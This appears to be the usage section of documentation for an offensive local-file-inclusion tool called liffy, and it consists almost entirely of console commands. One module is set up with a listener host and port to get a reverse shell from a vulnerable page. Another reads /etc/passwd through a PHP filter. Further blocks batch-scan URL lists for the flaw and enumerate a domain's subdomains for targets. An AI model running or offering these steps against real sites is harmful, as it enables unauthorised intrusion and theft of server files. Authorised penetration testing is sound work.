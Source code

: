 ### **Basic LFI Exploitation**

```bash
# Start interactive mode
liffy

# Use data wrapper module
use exploit/lfi/data

# Set options
set URL http://target/file.php?page=
set LHOST 192.168.1.100
set LPORT 4444

# Run exploit
run
```

### **Filter-based File Reading**

```bash
# Use filter module
use exploit/lfi/filter

# Set options
set URL http://target/file.php?page=
set FILE /etc/passwd

# Run exploit
run
```

### **Batch Vulnerability Scanning**

```bash
# Use scanner module
use auxiliary/lfi/scanner

# Set options
set URLS urls.txt
set THREADS 10

# Run scan
run
```

### **Target Discovery**

```bash
# Use target finder
use auxiliary/discovery/target_finder

# Set options
set DOMAIN example.com
set SUBDOMAINS true

# Run discovery
run
```

---